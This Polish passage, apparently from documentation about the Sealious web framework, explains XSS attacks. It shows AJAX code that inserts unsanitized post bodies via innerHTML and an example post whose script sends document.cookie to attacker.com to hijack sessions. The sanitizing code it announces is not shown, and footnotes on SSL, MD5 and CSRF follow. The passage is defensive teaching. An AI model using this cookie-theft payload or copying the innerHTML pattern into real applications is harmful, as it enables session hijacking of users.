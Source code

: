 Ataki typu XSS wykorzystują interpreter HTML przeglądarki do uruchamiania arbitralnych skryptów, które mają pełen dostęp do danych sesyjnych użytkownika i mogą spowodować ich wyciek. Zapobieganie im nie należy do najtrudniejszych, ale podatności na XSS są wciąż bardzo powszechne.

## Przykłady ataków XSS w dużych aplikacjach

Do stron, na których odnaleziono podatność na atak przy użyciu XSS, należą [wg @xssed]:

* samsung.com
* fbi.com
* ups.com
* uk.playstation.com
* 9gag.com

## Przebieg ataku

Rozpatrzmy przebieg XSS na przykładzie webowego, opartego o AJAX^[Korzystanie z modelu AJAX w aplikacjach webowych często jest przyczyną podatności na XSS [@ajax_guide]---na szczęście często jesteśmy w stanie im w pełni zapobiec odpowiednio konfigurując wyłącznie backend aplikacji], interfejsu sieci społecznościowej. 

Kod pobierający najnowsze posty użytkowników może mieć postać:

```javascript
var post_container = document.getElementById("posts");
request.get("/newest_posts.php", function(posts){
    posts.forEach(function(post){
        var post_div = document.createElement("div");
        post_div.classList.add("user-post");
        post_div.innerHTML = post.body;
        post_container.appendChild(post_div);
    })
});
```

Następnie, jeżeli serwer nie zapobiega XSS, wystarczy, aby któryś z użytkowników rozpatrywanej aplikacji utworzył post o treści:

```html
<div>
Jestem złośliwym użytkownikiem
</div>
<script>
document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='
   + document.cookie
</script>
```

aby każdy z użytkowników, któremu wyświetli się post atakującego został przekierowany na złośliwą stronę, która przechwytuje id sesji---co umożliwia atakującemu podszycie się pod tego użytkownika.

## Jak Sealious zapobiega XSS

Domyślnie zainstalowany w Sealiousie typ pola `text` korzysta z modułu `sanitize-html` aby usuwać z inputu użytkownika potencjalnie złośliwe skrypty^[poniższy fragment kodu pochodzi z pliku `lib/base-chips/field-type.text.js` z repozytorium sealious/sealious]: 


[^ssl_breakable_footnotes]: Odpowiednio zainfekowane maszyny są w stanie umożliwić ataki typu Man-In-The-Middle nawet dla połączeń HTTPS [zob. @superfish_ssl]
[^md5_bad_przypisy]: m.in. [@md5_not_suitable_ms], [@md5_not_suitable]
[^co_to_kolizja]: "Kolizja" oznacza możliwość wygenerowania w realistycznym czasie ciągu znaków, dla którego dana funkcja hashująca przyjmuje wartość identyczną z zadanym hashem (np. skradzionym z bazy danych). 
[^channel_responsibility_footnote]: Sealious w obecnych odsłonach (wersja `0.6.21-stable` i wersja `0.7-alpha`, stan ze stycznia 2016) nie zawiera mechanizmu sesji---aktualna struktura naszego frameworka wymaga, aby to chipy typu *channel* implementowały swój mechanizm weryfikacji identyfikatora sesji. Części tej sekcji odnoszące się do protokołów `http`(`s`) i plików *cookies* tyczą się konkretnego pluginu do Sealiousa---`sealious-www-server`.
[^sha1_footnote]: Podany fragment kodu pochodzi z pliku `define/channel.www_server.js` z repozytorium `Sealious/sealious-www-server`.
[^yes_you_read_that_right]: Może się wydawać, że przechowywanie owego dodatkowego tokenu autoryzacji w pliku cookie niweczy nasze zamiary--przecież sednem ataku CSRF jest fakt, że id sesji trzymane w cookie jest zawsze dopisywane przez przeglądarkę do zapytań HTTP wysłanych na serwer naszej aplikacji. Jak dodanie drugiego tokenu do pliku cookies ma nas obronić przed tym atakiem? Otóż serwer w trakcie sprawdzania obecności tokenu w zapytaniu nie będzie go szukał w nagłówkach `Cookie`---będzie oczekiwał obecności nagłówka `csrfToken`, niezależnego od `Cookie`, i to jego wartość będzie porównywał z tokenem przechowywanym w zmiennej sesyjnej. Brak tego nagłówka lub zła jego wartość będą się wiązać z odmową dostępu. W przeglądarce internetowej tylko skrypt pochodzący z danej domeny ma dostęp do jej pliku cookie na komputerze użytkownika, więc tylko taki skrypt jest w stanie dopisać ten token do *nagłówka* HTTP, co skutecznie zapobiega CSRF.